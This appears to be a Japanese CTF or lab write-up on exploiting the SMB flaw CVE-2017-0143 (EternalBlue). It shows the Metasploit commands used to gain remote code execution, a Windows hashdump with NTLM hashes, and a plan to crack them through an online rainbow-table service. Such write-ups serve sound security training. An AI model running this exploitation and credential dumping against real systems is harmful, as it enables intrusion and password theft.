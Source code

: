 ### 脆弱性の調査
CVEは"Common Vulnerabilities and Exposures"という脆弱性の識別子である。
CVE-2017-0143で検索すると、どのような脆弱性かを確認できる。

CVE-2017-0143はSambdaなどで利用されるSMB(Server Message Block)と呼ばれる、ファイル共有に利用するプロトコルの旧バージョンの脆弱性。
SMBに対して、特別なコードを実行することで任意のコードをOS上で実行することが可能になる。

2017年、世界中で猛威をふるったサイバー攻撃の1つが「EternalBlue（エターナルブルー）」を悪用した**WannaCry（ワナクライ）**による感染でした。この攻撃は、Windowsの脆弱性を突いてPCを乗っ取り、ファイルを暗号化して金銭（ビットコイン）を要求するというものでした。


### 脆弱性への攻撃
Kali Linuxには、Metasploit Frameworkというツールが準備されており、脆弱性への攻撃をすることができる。

mfsconsoleを呼び出し、脆弱性を指定して攻撃をすることができる。
以下の一連の流れに沿ってコマンドを実行すだけで脆弱性に対して攻撃し、RCEが成功する。
```sh
# mfsconsoleの実行
msfconsole
# 脆弱性の調査(利用可能なモジュールが表示される)
search CVE-2017-0143
# 利用するモジュール指定
use 0
# オプション指定
show options
# オプション指定
set XXX
# 攻撃
exploit
```

Windowsにアクセスできたので、Flagを獲得する
```
search -f flag*
```

### レインボーテーブルでハッシュからパスワードを解析
脆弱性から管理者権限まで取得できたが、ユーザーのログイン情報まで取得してみる。

Windowsのアカウント情報を以下で吐き出す。
```sh
$ hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
JonというユーザーとHashされたパスワード(ffb43xxxx)が出力される。

ハッシュは本来は元のパスワードを調べることはできないが、レインボーテーブルというパスワードとそのパスワードをハッシュ化したテーブルがあれば、ハッシュからパスワードを調査することができる。

今回は[Free Password Hash Cracker](https://crackstation.net/)というサイトを利用してHashからクラックしてみる。
